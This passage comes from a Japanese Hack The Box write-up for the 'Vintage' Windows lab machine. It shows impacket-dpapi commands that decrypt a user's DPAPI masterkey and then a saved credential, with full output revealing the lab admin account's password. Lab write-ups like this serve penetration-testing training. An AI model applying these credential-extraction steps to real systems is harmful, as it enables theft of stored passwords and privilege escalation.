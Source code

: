 ![image-20250111134614732](screenshot/image-20250111134614732.png)

masterkeyと資格情報ファイルがダウンロードできたのでimpacket-dpapiでオフラインで解析します。

結果として、masterkeyは `99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`, 資格情報ファイルは `C4BB96844A5C9DD45D5B6A9859252BA6` を使うことで `C.Neri_adm` のパスワードを取得することができました。

まず、マスターキーを復号化を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

masterkeyが複合できたのでmasterkeyを使用してDPAPIで保護されたデータを復号化を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```
